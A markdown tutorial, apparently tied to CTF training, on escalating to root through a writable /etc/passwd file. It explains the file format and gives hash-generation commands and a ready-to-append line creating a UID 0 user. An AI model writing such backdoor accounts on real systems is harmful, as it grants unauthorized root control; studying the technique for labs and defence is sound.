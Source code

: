 # Exploiting writeable /etc/passwd

## Table of Contents

- [Introduction](#introduction)
- [Understanding /etc/passwd](#understanding-etcpasswd)
- [Understanding /etc/passwd format](#understanding-etcpasswd)
- [How to exploit a writable /etc/passwd](#how-to-exploit-a-writable-etcpasswd)
- [Generate a linux password](#generate-a-linux-password)
- [Modifying the /etc/passwd](#modifying-the-etcpasswd)
- [Resources](#resources)

## Introduction

Sometimes, depending on the context, the vulnerability we discover, we can get access to the `/etc/passwd` file. Of course, by default the `/etc/passwd` file is not writeable by normal user, and you need to have super privileges. However, due some other vulnerability, escalating to root user somehow, can give you the opportunity to write to the `/etc/passwd` file.

## Understanding /etc/passwd

The `/etc/passwd` file stores essential information, which  is required during login. In other words, it stores user account information. The `/etc/passwd` is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like `user ID`, `group ID`, `home directory`, `shell`, and more.

The `/etc/passwd `file should have general read permission as many command utilities use it to map user IDs to user names. However, write access to the `/etc/passwd` must only limit for the superuser/root account. When it doesn't, or a user has erroneously been added to a write-allowed group. We have a vulnerability that can allow the creation of a `root` user that we can access.

## Understanding /etc/passwd format

The `/etc/passwd` file contains one entry per line for each user (user account) of the system. All fields are separated by a colon `:` symbol. Total of seven fields as follows. Generally, `/etc/passwd` file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

As divided by colon (`:`)

1. `Username`: It is used when user logs in. It should be between 1 and 32 characters in length.
2. `Password`: An x character indicates that encrypted password is stored in `/etc/shadow` file. Please note that you need to use the `passwd` command to compute the hash of a password typed at the CLI or to store/update the hash of the password in `/etc/shadow` file, in this case, the password hash is stored as an "x".
3. `User ID (UID)`: Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. `Group ID (GID)`: The primary group ID (stored in `/etc/group` file)
5. `User ID Info`: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. `Home directory`: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. `Command/shell`: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

## How to exploit a writable /etc/passwd

It's simple really, if we have a writable `/etc/passwd` file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the `UID`, `GID` and shell to `root`. Allowing us to log in as our own `root` user!

## Generate a linux password

Syntax is as following:

```commandline
$ openssl passwd -1 -salt <SALTNAME> <PASSWORD>
```

For example:

```commandline
$ openssl passwd -1 -salt mysalt password123
$1$mysalt$hREc3A9Q3vWq/TYxhRgW80
```

Or:

````commandline
$ openssl passwd newpasswordhere
Warning: truncating password to 8 characters
xCGsLUSejS.No
````

Or with:

````commandline
$ mkpasswd -m sha-512 newpasswordhere
````

## Modifying the /etc/passwd

In the context that we have write access to `/etc/passwd`  add the following to that file to create a new user named `mynewuser`:

```commandline
mynewuser:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

**Historically, the /etc/passwd file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.**

## Resources

- <https://tryhackme.com/room/commonlinuxprivesc>
- See [also this one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#writable-etcpasswd)
